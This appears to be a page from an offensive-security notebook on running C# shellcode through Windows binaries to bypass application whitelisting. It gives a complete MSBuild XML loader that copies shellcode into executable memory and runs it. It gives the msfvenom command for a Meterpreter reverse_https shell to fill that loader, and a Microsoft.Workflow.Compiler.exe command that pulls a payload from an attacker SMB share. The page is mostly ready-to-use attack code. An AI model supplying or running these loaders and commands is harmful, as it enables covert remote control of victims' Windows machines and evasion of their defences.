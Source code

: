 ## Execute C\

### msbuild.exe

Use the following shell temlate and insert the csharp code and save as an xml

Replace “INSERT\_SHELLCODE\_HERE” in the template with the shellcode generated from Metasploit.

Note1: This includes "byte\[\] shellcode = new byte\[\]"

Note2: Use metasploit to generate C\# shellcode with the follow command: “msfvenom -a x86 –platform windows -p windows/meterpreter/reverse\_https LHOST=192.168.X.X LPORT=443 -f csharp”. Replace the value of LHOST with your own ip address.

```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
 <!-- This inline task executes shellcode. -->
 <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
 <!-- Save This File And Execute The Above Command -->
 <!-- Author: Casey Smith, Twitter: @subTee -->
 <!-- License: BSD 3-Clause -->
 <Target Name="Hello">
 <ClassExample />
 </Target>
 <UsingTask
 TaskName="ClassExample"
 TaskFactory="CodeTaskFactory"
 AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
 <Task>

 <Code Type="Class" Language="cs">
 <![CDATA[
 using System;
 using System.Runtime.InteropServices;
 using Microsoft.Build.Framework;
 using Microsoft.Build.Utilities;
 public class ClassExample : Task, ITask
 { 
 private static UInt32 MEM_COMMIT = 0x1000; 
 private static UInt32 PAGE_EXECUTE_READWRITE = 0x40; 
 [DllImport("kernel32")]
 private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
 UInt32 size, UInt32 flAllocationType, UInt32 flProtect); 
 [DllImport("kernel32")]
 private static extern IntPtr CreateThread( 
 UInt32 lpThreadAttributes,
 UInt32 dwStackSize,
 UInt32 lpStartAddress,
 IntPtr param,
 UInt32 dwCreationFlags,
 ref UInt32 lpThreadId 
 );
 [DllImport("kernel32")]
 private static extern UInt32 WaitForSingleObject( 
 IntPtr hHandle,
 UInt32 dwMilliseconds
 ); 
 public override bool Execute()
 {
 byte[] shellcode = new byte[] { INSERT_SHELLCODE_HERE } };

 UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
 MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
 IntPtr hThread = IntPtr.Zero;
 UInt32 threadId = 0;
 IntPtr pinfo = IntPtr.Zero;
 hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
 WaitForSingleObject(hThread, 0xFFFFFFFF);
 return true;
 } 
 } 
 ]]>
 </Code>
 </Task>
 </UsingTask>
 </Project>
```

[GreatSCT](https://github.com/ConsciousHacker/GreatSCT)--tool to automatically generate the xml file.



### Microsoft.Workflow.Compiler.exe

Another method to execute C\# shellcode

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe \\attacker\Public\payload.txt /out:-
```

Fetching payload from an SMB Share \(attacker\)



References:

https://www.forcepoint.com/blog/security-labs/using-c-post-powershell-attacks/

[https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-msbuild-exe/](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-msbuild-exe/)


